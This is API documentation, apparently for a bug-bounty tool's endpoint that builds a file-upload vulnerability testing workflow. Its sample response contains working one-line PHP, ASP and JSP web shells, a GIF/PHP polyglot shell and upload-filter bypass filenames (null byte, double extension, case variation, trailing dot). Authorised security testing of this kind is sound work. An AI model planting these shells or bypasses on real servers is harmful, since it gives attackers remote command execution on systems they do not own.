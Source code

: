 # File Upload Testing Workflow API

## Overview

This workflow creates a comprehensive file upload vulnerability testing framework for bug bounty hunting. It generates test files, bypass techniques, and structured testing phases to identify file upload vulnerabilities in web applications.

## REST API Endpoint

**Path:** `/api/bugbounty/file-upload-testing`
**Method:** `POST`
**Content-Type:** `application/json`

## Parameters

### Required Parameters

| Parameter | Type | Description |
|-----------|------|-------------|
| `target_url` | `string` | The target URL or domain to test for file upload vulnerabilities |

### Request Body Example

```json
{
  "target_url": "https://example.com/upload"
}
```

## Response Format

The endpoint returns a JSON response with the following structure:

```json
{
  "success": true,
  "workflow": {
    "target": "https://example.com/upload",
    "test_phases": [
      {
        "name": "reconnaissance",
        "description": "Identify upload endpoints",
        "tools": ["katana", "gau", "paramspider"],
        "expected_findings": ["upload_forms", "api_endpoints"]
      },
      {
        "name": "baseline_testing",
        "description": "Test legitimate file uploads",
        "test_files": ["image.jpg", "document.pdf", "text.txt"],
        "observations": ["response_codes", "file_locations", "naming_conventions"]
      },
      {
        "name": "malicious_upload_testing",
        "description": "Test malicious file uploads",
        "test_files": {
          "web_shells": [...],
          "bypass_files": [...],
          "polyglot_files": [...]
        },
        "bypass_techniques": [...]
      },
      {
        "name": "post_upload_verification",
        "description": "Verify uploaded files and test execution",
        "actions": ["file_access_test", "execution_test", "path_traversal_test"]
      }
    ],
    "test_files": {
      "web_shells": [
        {
          "name": "simple_php_shell.php",
          "content": "<?php system($_GET['cmd']); ?>"
        },
        {
          "name": "asp_shell.asp",
          "content": "<%eval request(\"cmd\")%>"
        },
        {
          "name": "jsp_shell.jsp",
          "content": "<%Runtime.getRuntime().exec(request.getParameter(\"cmd\"));%>"
        }
      ],
      "bypass_files": [
        {
          "name": "shell.php.txt",
          "technique": "double_extension"
        },
        {
          "name": "shell.php%00.txt",
          "technique": "null_byte"
        },
        {
          "name": "shell.PhP",
          "technique": "case_variation"
        },
        {
          "name": "shell.php.",
          "technique": "trailing_dot"
        }
      ],
      "polyglot_files": [
        {
          "name": "polyglot.jpg",
          "content": "GIF89a<?php system($_GET['cmd']); ?>",
          "technique": "image_polyglot"
        }
      ]
    },
    "estimated_time": 360,
    "risk_level": "high"
  }
}
```

## cURL Command Example

```bash
curl -X POST \
  http://127.0.0.1:8888/api/bugbounty/file-upload-testing \
  -H "Content-Type: application/json" \
  -d '{
    "target_url": "https://example.com/upload"
  }'
```

## Testing with Different Targets

```bash
# Test upload form
curl -X POST \
  http://127.0.0.1:8888/api/bugbounty/file-upload-testing \
  -H "Content-Type: application/json" \
  -d '{
    "target_url": "https://vulnerable-site.com/upload"
  }'

# Test API endpoint
curl -X POST \
  http://127.0.0.1:8888/api/bugbounty/file-upload-testing \
  -H "Content-Type: application/json" \
  -d '{
    "target_url": "https://api.example.com/v1/files/upload"
  }'
```

## Logging

Logs for this workflow are stored in:
```
logs/workflows.file_upload_testing.file_upload_testing.log
```

### Log Format
```
YYYY-MM-DD HH:MM:SS,mmm - workflows.file_upload_testing.file_upload_testing - LEVEL - MESSAGE
```

### Sample Log Entries
```
2025-01-15 10:30:45,123 - workflows.file_upload_testing.file_upload_testing - INFO - Creating file upload testing workflow for https://example.com/upload
2025-01-15 10:30:45,124 - workflows.file_upload_testing.file_upload_testing - INFO - File upload testing workflow created for https://example.com/upload
```

## Generated Test Content

The workflow automatically generates various types of test files:

### Web Shells
- PHP shells with command execution
- ASP shells for Windows IIS servers
- JSP shells for Java applications

### Bypass Techniques
- Double extension bypass (e.g., `shell.php.txt`)
- Null byte injection (e.g., `shell.php%00.txt`)
- Case variation bypass (e.g., `shell.PhP`)
- Trailing dot bypass (e.g., `shell.php.`)

### Polyglot Files
- Image polyglots that combine valid image headers with executable code
- Files that appear as legitimate images but contain malicious payloads

## Error Responses

### Missing Required Field
```json
{
  "error": "Target_url is required"
}
```

### Invalid JSON
```json
{
  "error": "JSON data is required"
}
```

### Server Error
```json
{
  "error": "Server error: [detailed error message]"
}
```

## Security Considerations

**Warning:** This workflow generates potentially dangerous file upload test cases including web shells and bypass techniques. It should only be used:

1. On systems you own or have explicit permission to test
2. In isolated testing environments
3. For legitimate security assessments and bug bounty programs

**Never use this workflow against systems without proper authorization.**

## Integration Notes

- The workflow integrates with the bug bounty MCP server's logging system
- All requests are validated for required fields before processing
- Responses follow the standardized format with success indicators
- Exception handling provides meaningful error messages for debugging
